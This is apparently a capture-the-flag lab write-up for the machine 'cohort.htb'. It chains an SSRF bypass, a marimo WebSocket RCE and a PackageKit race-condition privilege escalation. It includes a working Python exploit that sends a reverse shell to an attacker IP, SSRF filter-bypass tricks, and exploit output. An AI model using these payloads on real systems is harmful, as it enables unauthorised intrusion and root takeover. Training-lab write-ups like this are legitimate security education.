



Exploitation Summary
The target machine exposed a web application on ports 80 and 443 that contained a Server-Side Request Forgery (SSRF) vulnerability. By probing the internal network through the SSRF, I discovered two internally-bound services: a Python API on port 5000 and a marimo notebook server on port 8888.
Further enumeration via SSRF revealed a /status endpoint that disclosed the internal routing configuration, including a virtual hostname exposing the marimo interface externally. The marimo instance was running version 0.20.4, which is vulnerable to unauthenticated Remote Code Execution via WebSocket (GHSA-2679-6mx9-h9xc). By connecting directly to the WebSocket terminal endpoint on the discovered vhost, I sent a reverse shell payload and gained initial access as the marimo user.
Privilege escalation was achieved by exploiting CVE-2026-41651 (Pack2TheRoot), a TOCTOU race condition in PackageKit that allows local privilege escalation. Using a public exploit, I obtained a SUID bash binary and escalated to root.
Technologies/Exploits: SSRF for internal service discovery, marimo WebSocket RCE (GHSA-2679-6mx9-h9xc), PackageKit TOCTOU LPE (CVE-2026-41651 / Pack2TheRoot).
Initial Reconnaissance
Starting with an nmap scan to identify open ports and running services:
22/tcp open ssh OpenSSH 9.6p1 Ubuntu 3ubuntu13.18 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 256 0c:4b:d2:76:ab:10:06:92:05:dc:f7:55:94:7f:18:df (ECDSA)
|_ 256 2d:6d:4a:4c:ee:2e:11:b6:c8:90:e6:83:e9:df:38:b0 (ED25519)
80/tcp open http nginx 1.24.0 (Ubuntu)
|_http-server-header: nginx/1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to https://cohort.htb/
443/tcp open ssl/http nginx 1.24.0 (Ubuntu)
| ssl-cert: Subject: commonName=cohort.htb/organizationName=Cohort Analytics
| Subject Alternative Name: DNS:cohort.htb, DNS:*.cohort.htb
|_http-title: Did not follow redirect to https://cohort.htb/
|_http-server-header: nginx/1.24.0 (Ubuntu)The scan reveals SSH on port 22 and an nginx web server redirecting HTTP to HTTPS on cohort.htb. The SSL certificate also covers *.cohort.htb, which hints that subdomains may be in play.
Web Enumeration & SSRF Discovery
Browsing to cohort.htb presents a simple landing page. The only useful link leads to portal.html, which contains a URL-fetching feature — effectively a built-in SSRF vector:

The third point under "What validation checks" confirms that the server fetches the URL and returns the response content. This means we have a reflected SSRF — we can read the response of any URL the server can reach.
Testing reveals that obvious bypass targets like localhost, 127.0.0.1, and the cloud metadata endpoint 169.254.169.254 (and its decimal equivalents) are blocked. However, the alternative loopback address 127.1 is not blocked, allowing access to internal services.
Internal Port Discovery via SSRF
Using 127.1 as the host and iterating over port numbers, I discover two internally listening services:
[200] :5000 {"ok": true, "fetched_status": 405, "content_type": "application/json", "preview": "{\"ok\": false, \"message\": \"Method not allowed.\"}", "message": "Source responded with an error status."}
[200] :8888 {"ok": true, "fetched_status": 200, "content_type": "text/html; charset=utf-8", "preview": "\n<!DOCTYPE html>\n<html lang=\"en\">\n<head>\n<meta charset=\"UTF-8\">..."}Port 5000 returns a 405 (Method Not Allowed) on GET requests, so there is no easy way to interact with it. Port 8888, however, returns a full HTML page. Looking at the content previewed by the SSRF, I recognize the interface as marimo — an open-source reactive Python notebook framework: https://github.com/marimo-team/marimo.
The HTML returned through the SSRF for port 8888 looks like this:

Marimo Version Fingerprinting
Since the SSRF supports arbitrary paths, I can probe API endpoints on the internal service. Querying /api/version on port 8888 reveals the exact marimo version:
[200] /api/version {"ok": true, "fetched_status": 200, "content_type": "text/plain; charset=utf-8", "preview": "0.20.4", "message": "Source reachable."}Marimo 0.20.4 is affected by a critical unauthenticated RCE vulnerability via its WebSocket terminal: GHSA-2679-6mx9-h9xc. The vulnerability allows any client that can reach the /terminal/ws WebSocket endpoint to execute arbitrary commands in the context of the marimo process — no authentication required.
The catch: WebSocket connections use the ws:// or wss:// scheme, and the SSRF only accepts http:// or https://:

So I cannot exploit the WebSocket vulnerability through the SSRF directly. I need to find a way to reach port 8888 from my own machine.
Discovering the Internal Virtual Host via /status
Continuing with web fuzzing of cohort.htb, I find the following endpoints:
api (Status: 301) [--> https://cohort.htb/api/]
api/experiments/configurations (Status: 405)
api/experiments (Status: 405)
assets (Status: 301) [--> https://cohort.htb/assets/]
portal.html (Status: 200)
status (Status: 403)The /assets and /api paths are either inaccessible or return nothing useful externally. However, /status returns a 403 Forbidden when accessed directly — but when fetched through the SSRF, it responds with a revealing JSON payload:
{
"service": "cohort-edge",
"status": "ok",
"generated_by": "nginx",
"upstreams": [
{"name": "marketing", "host": "cohort.htb", "root": "/var/www/cohort"},
{"name": "insights-api", "host": "cohort.htb", "path": "/api/", "target": "127.0.0.1:5000"},
{"name": "notebooks", "host": "nb-1be3782a8afd3ad5.cohort.htb", "target": "127.0.0.1:8888", "note": "internal analyst workspace, not for external use"}
]
}This is critical. The nginx routing configuration shows that the marimo service on port 8888 is proxied through the virtual host nb-1be3782a8afd3ad5.cohort.htb. Despite the "not for external use" note, adding this hostname to /etc/hosts makes it directly reachable from my machine — including over WebSockets.
Initial Access — Marimo WebSocket RCE
With nb-1be3782a8afd3ad5.cohort.htb added to my hosts file, I can now connect to the marimo WebSocket terminal endpoint directly. Based on the public PoC for GHSA-2679-6mx9-h9xc, I write the following exploit script:
#!/usr/bin/env python3
import websocket
import ssl
import time
MARIMO_URL = "wss://nb-1be3782a8afd3ad5.cohort.htb/terminal/ws"
LHOST = "10.10.16.140"
LPORT = 443
sslopt = {"cert_reqs": ssl.CERT_NONE, "check_hostname": False}
ws = websocket.WebSocket(sslopt=sslopt)
ws.connect(MARIMO_URL)
print("[+] Connected!")
payload = (
f"nohup python3 -c \"import socket,subprocess,os;"
f"s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);"
f"s.connect(('{LHOST}',{LPORT}));"
f"os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);"
f"subprocess.call(['/bin/sh','-i'])\" "
f"> /dev/null 2>&1 &"
)
ws.send(payload + "\n")
print(f"[+] Reverse shell payload sent to {LHOST}:{LPORT}")
time.sleep(3)
ws.close()The script connects directly to the /terminal/ws WebSocket endpoint and sends a reverse shell command. The nohup ... & wrapper is essential here: without it, the shell dies immediately when the WebSocket connection closes. Running the process in the background with nohup keeps it alive.
With a netcat listener on port 443, I execute the script and receive a shell as the marimo user. After stabilizing the shell, I retrieve the user flag.
Post-Exploitation Enumeration
Looking at running processes with ps -fauxww, I find the marimo server startup command, which leaks its authentication token:
marimo 384246 4.8 2.3 1117264 96104 ? Ssl 0:01 \_ /opt/marimo/venv/bin/python3 /opt/marimo/venv/bin/marimo edit \
/home/marimo/notebooks/retention.py \
--headless --host 127.0.0.1 -p 8888 \
--token --token-password YKQ6iPyO5kusNx0BpVAPfjP5 \
--skip-update-check --no-sandboxThe token is interesting but ultimately not useful for privilege escalation — the marimo process is already running as the marimo user, the same account I have access to. Knowing the token gives no additional privilege.
I review other common escalation vectors (sudo rules, SUID binaries, cron jobs, writable paths) but find nothing immediately exploitable through standard checks.
Privilege Escalation — CVE-2026-41651 (Pack2TheRoot)
Before giving up on automated enumeration, I run the latest release of linpeas — it's worth running up-to-date versions as new CVEs get added regularly. It flags something interesting:
╔══════════╣ Checking for PackageKit Pack2TheRoot (CVE-2026-41651) (T1068)
╚ https://github.security.telekom.com/2026/04/pack2theroot-linux-local-privilege-escalation.html
PackageKit version detected: 1.2.8-2ubuntu1.2
Vulnerable to CVE-2026-41651 (Pack2TheRoot) - PackageKit 1.2.8-2ubuntu1.2 is below the Ubuntu 24.04 fixed version: 1.2.8-2ubuntu1.5
══╣ PackageKit daemon reachability
pkcon/pkmon present - daemon can be activated on demand via D-BusCVE-2026-41651, nicknamed Pack2TheRoot, is a TOCTOU (Time-Of-Check Time-Of-Use) race condition in PackageKit's package installation flow. By sending two crafted InstallFiles transactions in quick succession — one to trick the authorization check and one carrying a malicious payload — an attacker can cause PackageKit (running as root) to install a package that drops a SUID binary on the filesystem, granting local privilege escalation without any sudo rights required.
A ready-to-use exploit binary is available at: https://github.com/Vozec/CVE-2026-41651
I transfer the binary to the target and execute it:
marimo@cohort:~$ ./cve-2026-41651
═══════════════════════════════════════════════════
CVE-2026-41651 — PackageKit TOCTOU LPE
═══════════════════════════════════════════════════
[*] Building packages (pure C)...
[+] dummy : /tmp/.pk-dummy-384307.deb
[+] payload : /tmp/.pk-payload-384307.deb
[*] Transaction : /2_aebaaeda
[*] Step 1 : InstallFiles(SIMULATE=0x4, dummy) [async]
[*] Step 2 : InstallFiles(NONE=0x0, payload) [async]
[*] Waiting for dispatch (30 s max)...
[!] PK error 48: Failed to obtain authentication.
[*] Finished (exit=2, 0 ms)
[*] Loop ran for 156 ms
[*] Polling for payload (120 s max)...
[*] t+1s: payload=exists dpkg_lock=free suid=not yet
[*] t+2s: payload=exists dpkg_lock=free suid=not yet
[*] t+3s: payload=exists dpkg_lock=free suid=not yet
[+] SUCCESS — SUID bash at t+2700ms
uid=1000(marimo) gid=1000(marimo) euid=0(root) groups=1000(marimo)
.suid_bash: cannot set terminal process group (-1): Inappropriate ioctl for device
.suid_bash: no job control in this shellThe exploit races the PackageKit authorization check by submitting both transactions asynchronously. Even though it logs a "Failed to obtain authentication" error for the simulated transaction, the race is won: the payload package gets installed with root privileges before the authorization is fully enforced, dropping a SUID-root bash binary. Running it with .suid_bash -p gives an effective UID of 0, and I retrieve the root flag.